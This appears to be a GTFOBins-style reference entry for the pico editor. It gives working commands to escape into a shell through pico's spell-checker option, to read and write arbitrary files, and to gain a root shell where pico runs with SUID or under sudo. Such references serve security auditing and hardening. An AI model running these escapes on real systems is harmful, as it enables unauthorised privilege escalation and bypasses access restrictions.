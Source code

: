 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

